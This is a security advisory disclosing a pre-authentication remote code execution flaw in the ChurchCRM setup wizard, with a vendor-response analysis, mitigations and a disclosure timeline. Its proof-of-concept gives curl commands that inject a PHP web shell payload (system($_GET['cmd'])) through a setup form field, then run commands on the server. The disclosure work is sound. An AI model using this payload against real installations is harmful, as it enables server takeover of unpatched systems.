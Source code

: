 # ChurchCRM — Unauthenticated Remote Code Execution in Setup Wizard (<= 5.18.0)

**Disclosure status:** Reported to vendor (GitHub Security Advisory GHSA-m8jq-j3p9-2xf3). Vendor acknowledged but provided insufficient response. No vendor patch available as of this advisory.

**Affected product**
- ChurchCRM — versions **<= 5.18.0**

**Summary**
A critical pre-authentication remote code execution vulnerability in ChurchCRM's setup wizard allows unauthenticated attackers to inject arbitrary PHP code during the initial installation process. User input from the setup form is directly concatenated into a PHP configuration template without validation, leading to complete server compromise during the brief installation window.

**Required privileges**
- None — vulnerability is pre-authentication and affects fresh installations

**Impact**
- **Critical** pre-authentication Remote Code Execution (as web server user)
- Complete server takeover without any authentication required
- Execution of arbitrary system commands during installation phase
- Potential for persistent backdoor installation before application setup completes
- Infrastructure compromise affecting the underlying server environment

**Technical Details**
The vulnerability exists in `setup/routes/setup.php` where user input is directly string-replaced into a PHP configuration template:

```php
// Line 35: No authentication required
$setupData = $request->getParsedBody();

// Lines 39-45: Direct string replacement with user input
$template = str_replace('||DB_PASSWORD||', $setupData['DB_PASSWORD'], $template);
$template = str_replace('||ROOT_PATH||', $setupData['ROOT_PATH'], $template);
$template = str_replace('||URL||', $setupData['URL'], $template);

// Line 47: Write user-controlled content to executable PHP file
file_put_contents(SystemURLs::getDocumentRoot() . '/Include/Config.php', $template);
```

Any parameter in the setup form can inject PHP code that gets written to `Include/Config.php` and executed on every subsequent page load.

**Proof-of-Concept**

1. Access the setup wizard (no authentication required):
   ```bash
   curl 'http://[target]/setup/'
   ```

2. Submit malicious payload via form parameter:
   ```bash
   curl 'http://[target]/setup/' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -d 'DB_SERVER_NAME=localhost&DB_SERVER_PORT=3306&DB_NAME=test&DB_USER=root&DB_PASSWORD=test123'\''%3B+system($_GET["cmd"])%3B+//&ROOT_PATH=/&URL=http://example.com/'
   ```

3. Execute arbitrary commands:
   ```bash
   curl 'http://[target]/?cmd=whoami'
   # Response: www-data
   
   curl 'http://[target]/?cmd=id' 
   # Response: uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

**Confirmed results (observed)**
- Successful injection of payload `'; system($_GET["cmd"]); //` into Config.php
- Remote command execution confirmed with system commands
- Full web server user access during installation window

**Vendor Response Analysis**
A project contributor acknowledged that this "mainly applies to new installations only" and that "once the installation is finished, the specified URL will stop working." While noting "no data at risk of being leaked," this assessment doesn't fully account for:

- **Brief window ≠ No risk**: Even temporary RCE provides sufficient time for infrastructure compromise
- **No data at risk ≠ No impact**: Server compromise, backdoor installation, and persistent access are significant impacts
- **Installation-only ≠ Low severity**: Pre-auth RCE during mandatory setup phase affects all fresh deployments

**Mitigation / Workarounds**
- **Immediate**: Restrict network access to setup wizard during installation
- **Recommended vendor fixes**:
  - Implement input validation and sanitization for all setup form parameters
  - Use parameterized configuration generation instead of string replacement
  - Add CSRF protection and basic rate limiting to setup endpoints
  - Consider moving sensitive configuration generation to CLI-only tools

**Disclosure timeline**
- 2025-09-24 — Reported via GitHub Security Advisory GHSA-m8jq-j3p9-2xf3
- 2025-10-04 — Project contributor responded, noted issue affects "new installations only"
- 2025-10-04 — Reporter clarified infrastructure compromise risks during installation window
- 2025-10-08 — No further vendor response; publishing advisory for CVE coordination

**References**
- GitHub Security Advisory: GHSA-m8jq-j3p9-2xf3
- ChurchCRM Setup Route: `setup/routes/setup.php`

**Contact**
- Reporter: uartu0@gmail.com

---

This advisory documents a critical pre-authentication RCE vulnerability that affects the mandatory installation process of ChurchCRM. While the attack window is limited to the installation phase, the impact includes full server compromise and potential persistent access.